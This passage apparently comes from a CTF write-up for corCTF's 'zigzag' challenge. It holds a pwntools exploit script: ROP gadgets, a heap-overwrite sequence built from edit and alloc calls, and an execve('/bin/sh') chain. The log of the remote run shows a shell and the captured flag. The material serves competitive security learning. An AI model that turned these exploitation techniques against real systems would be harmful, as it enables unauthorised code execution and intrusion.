 ```py
0x000000000020351b : pop rsi ; ret
0x00000000002035cf : xor edx, edx ; mov rsi, qword ptr [r9] ; xor eax, eax ; syscall
0x0000000000201e09 : ret
0x0000000000203715 : add rsp, 0x68 ; pop rbx ; pop r14 ; ret
"""

rop = pwn.ROP(exe)
binsh = 0x208000+(48)
rop.execve(binsh, 0, 0)

edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(stack-0x50)* 3 + pwn.p64(0) + pwn.p64(0))
alloc(11, 0x400, pwn.p64(0x203147) + pwn.p64(0x208000) + pwn.p64(0x20351b) + pwn.p64(0x1000) + pwn.p64(0x201fcf) + pwn.p64(0xa) + pwn.p64(0x208000))

edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(stack-0xd0)* 3 + pwn.p64(0) + pwn.p64(0))

alloc(12, 1000,pwn.p64(0x202d16))
edit(12, 0x7, pwn.p64(0x0000000000203715))

io.interactive()

"""
nasm@off:~/Documents/pwn/corCTF/zieg$ python3 remote.py REMOTE HOST=be.ax PORT=31278
[*] '/home/nasm/Documents/pwn/corCTF/zieg/zigzag'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x200000)
[+] Opening connection to be.ax on port 31278: Done
[*] stack: 0x7ffe21d2cc68
[*] Loaded 37 cached gadgets for 'zigzag'
[*] Using sigreturn for 'SYS_execve'
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
corctf{bl4Z1nGlY_f4sT!!}
"""
```
